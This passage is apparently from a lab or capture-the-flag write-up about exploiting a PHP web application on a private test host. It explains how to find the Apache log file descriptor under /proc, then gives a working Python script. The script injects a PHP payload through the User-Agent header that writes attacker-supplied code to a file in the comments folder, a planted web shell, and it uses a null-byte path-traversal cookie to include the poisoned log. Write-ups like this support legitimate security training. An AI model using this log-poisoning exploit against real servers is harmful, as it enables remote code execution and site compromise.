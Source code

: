 <p style="text-align:justify;">
At this point we use the child process ID from the <code  style="background-color: lightgrey; color:black;">/proc/self/stat</code> file in order to identify the file descriptor which is related with the apache log file. Furthermore, using the BurpSuite interceptor, and more specifically the repeater tool, we realized that we need to repeat the request multiple times in order to have a chance to read the contents of the file representing a specific file descriptor which is linked with the apache log file. 
</p>

<p style="text-align:justify;">
We will start brute forcing to see if we can read the file descriptors, lets say from 0 to 15. Moreover, one of these file descriptors could probably hold the <b>httpd</b> logs. 

The following python script has been used in order to find the file descriptor we wanted. This script will show the length of the HTTP responses. As said before, we might need multiple requests in order to achieve reading the contents of the file at <code  style="background-color: lightgrey; color:black;">/proc/6642/fd</code> directory that is linked with the Apache log file. Also, we must take into consideration that the application for some reason does not have a logout button yet, thus the session ID is valid until the user clears the browser's cache.
</p>


```python

import requests

target = "192.168.201.3"
port = "2425"
PHPSESSID="6b82a05ec984697da862a3b2acf884c4" # here put a valid session ID 

pid="6642"

url = "http://"+target+"/listings.php"

headers = {"Cache-Control": "max-age=0", \
"Upgrade-Insecure-Requests": "1", "User-Agent": \
"<?$com=base64_decode($_GET['cmd']);$file=fopen('./comments/yo.php','w'); \
fwrite($file,$com);fclose($file);phpinfo();?>", \
"Accept": \
"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/ \
signed-exchange;v=b3;q=0.9", "Accept-Encoding": "gzip, \
deflate", "Accept-Language": "en-GB,en-US;q=0.9,en;q=0.8", \
"Cookie": "PHPSESSID="+PHPSESSID+"; user=../../../../../proc/"+pid+"/fd/9%00", \
"Connection": "close"}

for i in range (10):
  response = requests.get(url, headers=headers)
  cont = response.content
  print (len(cont))
  print ("")

```
